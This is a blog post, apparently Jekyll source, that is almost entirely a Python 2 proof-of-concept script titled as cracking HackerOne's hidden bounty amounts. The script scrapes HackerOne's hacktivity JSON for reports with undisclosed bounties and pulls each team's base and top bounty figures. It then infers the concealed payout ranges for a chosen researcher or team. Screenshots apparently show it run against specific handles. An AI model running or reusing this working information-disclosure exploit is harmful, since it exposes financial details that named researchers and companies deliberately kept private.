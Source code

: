 ```yaml
---
layout: post
title: Cracked HackerOne Hidden Bounty Amount
categories: articles
---
```


<p align="right" class="date">{{ page.date | date_to_string }} - CongRong</p>

## POC:

{% highlight python %}

#!/usr/bin/env python
#coding:utf-8

import json
import requests
from datetime import datetime


class crack(object):
	def __init__(self, user):
		self.teams = {}
		self.user = user
		self.formatted_bounty = {
			"$":["BOUNTY_LOW","base_bounty","<"],
			"$$":["BOUNTY_MEDIUM","base_bounty", ">="],
			"$$$":["BOUNTY_HIGH","top_bounty_lower_range", ">="],
			"$$$$":["BOUNTY_SEVERE","top_bounty_lower_range", ">="]
		}
		self.headers = {
			'accept': 'application/json',
			'x-requested-with': 'XMLHttpRequest',
		}


	def loads_hide_reward(self):
		print "[+] Loads Hidden Bounty Reports ..."
		url = 'https://hackerone.com/hacktivity?sort_type=latest_disclosable_activity_at&page={}&filter=type%3Abounty-awarded%20{}&range=forever'
		req = json.loads(requests.get(url.format(1, self.user), headers=self.headers).content)
		bounty_reports = req['reports']
		if req['pages'] > 1:
			print "[+] There are {} pages".format(req['pages'])
			for i in range(1,req['pages'] + 1):
				bounty_reports += json.loads(requests.get(url.format(i, self.user), headers=self.headers).content)['reports']

		hide_bounty_reports = filter(lambda x:x['bounty_disclosed'] == False, bounty_reports)
		if len(hide_bounty_reports) == 0:
			print "[+] Hide Bounty Reports Count 0!"
			exit()

		results = {}
		for k,p in enumerate(hide_bounty_reports):
			report_tmp = {}
			report_tmp['id'] = p['id']
			report_tmp['team'] = p['team']['handle']
			report_tmp['from_or_to'] = report_tmp['team'] if 'from%3A' in self.user else p['reporter']['username']
			report_tmp['bounty'] = p['formatted_bounty']
			time_format = datetime.strptime(p['latest_disclosable_activity_at'], "%Y-%m-%dT%H:%M:%S.%fZ").strftime("%Y/%m/%d %H:%M:%S")
			report_tmp['hacktivity'] = p['latest_disclosable_action'] + " " + time_format
			results[k] = report_tmp
			print "[{}] -> {} {} {} {}".format(k, 
											report_tmp['id'], 
											report_tmp['from_or_to'], 
											report_tmp['bounty'], 
											report_tmp['hacktivity']
											)

		report_key = raw_input("Select Bounty Hidden Report [Default ALL]:")
		if report_key.isdigit() and 0 <= int(report_key) <= len(results) - 1:
			report_keys = [int(report_key)]
		else:
			report_keys = range(len(results))

		for i in report_keys:
			res_tmp = results[i]
			team = res_tmp['team']
			if team not in self.teams: self.teams[team] = self.loads_team(team)
			bounty_dict = self.formatted_bounty[res_tmp['bounty']]
			team_base_bounty = self.teams[team]['base_bounty']
			team_top_bounty = self.teams[team]['top_bounty_lower_range']

			if team_base_bounty == None and team_top_bounty and res_tmp['bounty'] in ["$","$$"]:
				math_flag = "<"
				bounty = self.teams[team]['top_bounty_lower_range']

			elif team_base_bounty and team_top_bounty == None:
				bounty = team_base_bounty
				math_flag = bounty_dict[2] if res_tmp['bounty'] in ["$","$$"] else ">"

			elif team_base_bounty and team_top_bounty and res_tmp['bounty'] == "$$":
				print "\033[15;32m[{}:{}] ${} > Bounty >= ${}\033[0m".format(i, bounty_dict[0], team_top_bounty, team_base_bounty)
				continue

			elif not filter(lambda x:x != None, [team_base_bounty, team_top_bounty]):
				print "\033[15;33m[{}] {} Team not show the Amount of Bounty, please read https://hackerone.com/{} page find this\033[0m".format(i,team,team)
				math_flag = ">"
				bounty = 0

			else:
				math_flag = bounty_dict[2]
				bounty = self.teams[team][bounty_dict[1]]

			print "\033[15;32m[{}:{}] Bounty {} ${}\033[0m".format(i, bounty_dict[0], math_flag, bounty)


	def loads_team(self, team):
		print "[+] Analysis {} Team Information ...".format(team)
		team_base = json.loads(requests.get('https://hackerone.com/{}'.format(team), headers=self.headers).content)
		team_metrics = json.loads(requests.get('https://hackerone.com/{}/profile_metrics.json'.format(team), headers=self.headers).content)
		team_rule = {}
		team_rule['base_bounty'] = team_base['base_bounty'] if 'base_bounty' in team_base.keys() else None
		team_rule['top_bounty_lower_range'] = team_metrics['top_bounty_lower_range']

		return team_rule


if __name__ == '__main__':
	crack_type = raw_input("please Input Crack Type[0:hack {default}/1:team]")
	if crack_type.isdigit() and int(crack_type) == 1:
		user = "to%3A" + raw_input("please Input Team Names has Handle:")
	else:
		user = "from%3A" + raw_input("please Input HackerOne Id:")
	crack(user).loads_hide_reward()

{% endhighlight %}

@geekboy:

<img src="https://blog-1252048719.cos.ap-shanghai.myqcloud.com/579xovyz.png">

<img src="https://blog-1252048719.cos.ap-shanghai.myqcloud.com/575csqpv.png">

@quora:

<img src="https://blog-1252048719.cos.ap-shanghai.myqcloud.com/378eahxk.png">

<img src="https://blog-1252048719.cos.ap-shanghai.myqcloud.com/21uemnb.png">